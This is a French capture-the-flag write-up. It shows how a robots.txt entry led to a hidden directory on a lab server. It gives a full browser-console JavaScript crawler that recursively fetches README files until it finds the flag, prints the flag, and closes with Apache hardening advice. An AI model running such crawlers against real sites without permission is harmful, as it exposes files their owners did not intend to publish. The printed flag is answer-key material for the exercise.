


# Exploitation du Dossier `.hidden` et Crawler pour Trouver le Flag

## 1. Introduction
J'ai exploité une **vulnérabilité d'exposition de fichiers** dans un répertoire caché `.hidden` pour trouver un flag. En utilisant un **crawler en JavaScript** exécuté dans la console du navigateur, j'ai exploré récursivement les dossiers et sous-dossiers pour lire les fichiers `README` jusqu'à ce qu'un **chiffre** soit trouvé, indiquant la présence du flag.

---

## 2. Découverte de la Faille

### **Exploration du `robots.txt`**
En analysant le fichier `robots.txt`, j'ai trouvé la directive suivante :
```
User-agent: *
Disallow: /.hidden
```

Cela m'a conduit à explorer le dossier `.hidden` en naviguant vers l'URL :
```
http://10.211.55.2/.hidden/
```


---

### **Structure du Répertoire `.hidden`**
Le dossier `.hidden` contenait une **structure de dossiers profondément imbriquée**, chacun contenant potentiellement un fichier `README`. Ces fichiers contenaient principalement des **messages de troll**, mais l'un d'eux contenait le **flag**.

---

## 3. Automatisation du Crawling avec un Script JavaScript
Pour explorer efficacement cette structure complexe, j'ai utilisé le script suivant dans la **console du navigateur** :

```js
const baseURL = "http://10.211.55.2/.hidden/";
let found = false;
let readmeCount = 0;
let checkedReadmes = new Set();

async function exploreDirectory(url) {
    if (found) return;
    try {
        const response = await fetch(url);
        const text = await response.text();
        const links = [...text.matchAll(/href="([^"]+)"/g)].map(m => m[1]);

        for (let link of links) {
            if (link === "../") continue;
            if (link.endsWith('/')) {
                await exploreDirectory(url + link);
            } else {
                if (link.toLowerCase().includes("readme")) {
                    const fileUrl = url + link;
                    if (checkedReadmes.has(fileUrl)) continue;
                    checkedReadmes.add(fileUrl);
                    readmeCount++;
                    const fileResponse = await fetch(fileUrl);
                    const fileText = await fileResponse.text();
                    console.log(`📄 Contenu du README :\n${fileText}`);
                    if (/\d/.test(fileText)) {
                        console.log(`🚩 Chiffre trouvé dans ${fileUrl}, arrêt du script.`);
                        found = true;
                        break;
                    }
                }
            }
        }
    } catch (error) {
        console.error(`❌ Erreur lors de l'exploration de ${url} : `, error);
    }
}

async function startCrawling() {
    console.log("🚀 Début de l'exploration...");
    await exploreDirectory(baseURL);
    console.log(`✅ Exploration terminée. Nombre total de README trouvés : ${readmeCount}`);
}

startCrawling();
```

---

## 4. Obtention du Flag
Le **flag** trouvé est :
```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```



---

## 5. Impact de la Faille
- **Explorer des répertoires cachés** non protégés.
- **Lire des fichiers sensibles** comme `README`.

---

## 6. Prévention de la Faille
- **Empêcher l'indexation des répertoires** avec `.htaccess` :
```apache
Options -Indexes
```
- **Bloquer l'accès public** :
```apache
<Directory "/path/to/.hidden">
    Require all denied
</Directory>
```

---

## 7. Correction de la Faille
- **Déplacer le dossier `.hidden`** en dehors du répertoire web public.
- **Ajouter une protection avec `.htaccess`** pour bloquer l'accès direct.

---

## 8. Conclusion
Cette exploitation démontre l'importance de :
- **Ne pas exposer de répertoires sensibles** dans des environnements de production.
- **Configurer correctement les permissions** pour éviter l'accès non autorisé.
- **Utiliser des contre-mesures** comme `.htaccess` pour sécuriser les fichiers et dossiers confidentiels.
